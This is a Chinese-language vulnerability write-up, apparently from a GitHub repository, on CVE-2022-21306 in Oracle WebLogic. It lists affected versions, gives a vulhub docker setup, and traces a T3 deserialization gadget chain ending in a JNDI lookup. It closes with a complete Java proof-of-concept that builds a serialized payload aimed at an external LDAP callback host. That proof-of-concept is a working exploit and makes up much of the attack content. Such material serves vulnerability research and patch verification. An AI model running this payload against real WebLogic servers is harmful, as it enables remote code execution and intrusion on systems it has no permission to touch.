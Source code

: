 # CVE-2022-21306 反序列化漏洞
- [CVE-2022-21306 反序列化漏洞](#cve-2022-21306-反序列化漏洞)
  - [影响版本](#影响版本)
  - [环境搭建](#环境搭建)
  - [原理分析](#原理分析)
    - [FileSessionData](#filesessiondata)
    - [AttributeWrapperUtils](#attributewrapperutils)
    - [JNDI](#jndi)
    - [poc](#poc)

## 影响版本
Oracle Weblogic 12.1.3.0.0   
Oracle Weblogic 12.2.1.3.0  
Oracle Weblogic 12.2.1.4.0   
Oracle Weblogic 14.1.1.0.0
## 环境搭建
`docker run --name="weblogic" -d -p 7001:7001 -p 5005:5005 vulhub/weblogic:12.2.1.3-2018`
## 原理分析
一条T3协议的反序列化新链,简单记录一下该链.

### FileSessionData
在Weblogic的有一个FileSessionData类继承于SessionData类,其重写了toString()方法.
![](pic/2022-05-31-10-05.png)
在该类中经过几次调用最后会执行AttributeWrapperUtils.unwrapObject(name, (AttributeWrapper)o.
![](pic/2022-05-31-10-05-1.png)
其中o是从attributes map中取得Key为wl_debug_session的对象.
### AttributeWrapperUtils
来到AttributeWrapperUtils类中,当取得的对象为BusinessHandle子类时则会调用BusinessHandle类的getBusinessObject()方法.	
![](pic/2022-05-31-10-05-2.png)
来到其getBusinessObject()方法,其中当primarkKey为空时,则调用homeHandle#getEJBHome()方法.
![](pic/2022-05-31-10-05-4.png)
### JNDI
最终在homeHandle中执行了以ctx.lookup()造成JDNI注入.
![](pic/2022-05-31-10-05-5.png)

最后用CC5中的BadAttributeValueExpException来进入FileSessionData的toString()方法即可.
### poc
```java
import weblogic.ejb.container.internal.BusinessHandleImpl;  
import weblogic.ejb20.internal.HomeHandleImpl;  
import weblogic.servlet.internal.AttributeWrapper;  
import weblogic.servlet.internal.session.FileSessionData;  
import javax.management.BadAttributeValueExpException;  
import javax.naming.ldap.LdapName;  
import java.io.FileOutputStream;  
import java.io.ObjectOutputStream;  
import java.lang.reflect.Field;  
import java.util.HashMap;  
import java.util.Map;  
  
public class cve_2022_21306 {  
    public static void main(String[] args) throws Exception {  
        //HomeHandleImpl  
        HomeHandleImpl homeHandles = new HomeHandleImpl();  
        Field jndiname = homeHandles.getClass().getDeclaredField("jndiName");  
        Field serverurl = homeHandles.getClass().getDeclaredField("serverURL");  
        serverurl.setAccessible(true);  
        jndiname.setAccessible(true);  
        jndiname.set(homeHandles,new LdapName("cn=a,dc=a"));  
        serverurl.set(homeHandles,"ldap://caa336c2vtc0000tkqx0gffd8ahyyyyyd.interact.sh/a");  
        //BusinessHandleImpl  
        BusinessHandleImpl businessHandle = new BusinessHandleImpl();  
        Field homeHandle = businessHandle.getClass().getDeclaredField("homeHandle");  
        homeHandle.setAccessible(true);  
        homeHandle.set(businessHandle,homeHandles);  
        //AttributeWrapper  
        AttributeWrapper attributeWrapper = new AttributeWrapper(businessHandle);  
        Map<String, Object> attribute = new HashMap<>();  
        attribute.put("wl_debug_session",attributeWrapper);  
        //FileSessionData  
        FileSessionData fileSessionData = new FileSessionData();  
        Field attributes = fileSessionData.getClass().getSuperclass().getDeclaredField("attributes");  
        attributes.setAccessible(true);  
        attributes.set(fileSessionData,attribute);  
        //BadAttributeValueExpException  
        BadAttributeValueExpException Badobj = new BadAttributeValueExpException(null);  
        Field val = Badobj.getClass().getDeclaredField("val");  
        val.setAccessible(true);  
        val.set(Badobj,fileSessionData);  
        ObjectOutputStream oos  = new ObjectOutputStream(new FileOutputStream("test.ser"));  
        oos.writeObject(Badobj);  
    }}
```